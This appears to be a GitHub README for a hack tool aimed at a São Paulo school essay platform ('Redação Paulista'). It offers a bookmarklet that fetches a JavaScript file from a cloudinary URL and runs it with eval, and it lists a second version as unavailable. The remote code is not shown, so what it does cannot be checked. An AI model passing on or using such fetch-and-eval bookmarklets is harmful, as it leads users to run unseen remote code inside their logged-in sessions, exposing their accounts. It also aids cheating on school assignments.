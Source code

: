 # 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V2 (MANUTENÇÃO)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1747774590/redacaov2.js").then(t=>t.text()).then(eval);
```

## REDAÇÃO V3
```js
javascript:fetch("INDISPONÍVEL").then(t=>t.text()).then(eval);
```

